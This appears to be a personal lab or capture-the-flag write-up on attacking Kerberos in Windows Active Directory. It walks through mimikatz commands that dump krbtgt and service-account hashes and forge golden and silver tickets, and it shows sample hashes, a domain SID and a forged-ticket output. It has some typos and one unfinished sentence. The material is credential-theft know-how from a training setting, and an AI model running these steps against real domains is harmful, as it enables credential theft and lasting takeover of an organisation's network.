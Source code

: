 ![0xskar](/assets/kerberos06.png)

##  Dump the krbtgt hash

1. run mimikatz ``mimikatz.exe``
2. ensure we output privilege 20 OK ``peivilege::debug``
3. ``lsadump::lsa /inject /name:krbtgt`` - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

##  Create Golden/Silver Ticket

- ``Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:`` - This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

1. in mimikats: ``lsadump::lsa /inject /name:SQLService`` To create a silver ticket we need this for the service accout SID and the 

```shell
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 00000455 (1109)
User : SQLService

 * Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
    ntlm- 0: cd40c9ed96265531b21fc5b1dafcfb0a
    lm  - 0: 7bb53f77cde2f49c17190f7a071bd3a0
```

2. create out silver ticket: ``Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:cd40c9ed96265531b21fc5b1dafcfb0a /id:1103`` we replaced the administrator krbtgt with the SQLService NTLM hash and sid with our SQLService account SID and changed the ID to 1103.

```shell
mimikatz # Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:cd40c9ed96265531b21fc5b1dafcfb0a /id:1103 
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-432953485-3795405108-1502158860
User Id   : 1103
Groups Id : *513 512 520 518 519
ServiceKey: cd40c9ed96265531b21fc5b1dafcfb0a - rc4_hmac_nt
Lifetime  : 6/21/2022 1:08:57 AM ; 6/18/2032 1:08:57 AM ; 6/18/2032 1:08:57 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted 
 * KrbCred generated

Final Ticket Saved to file !
```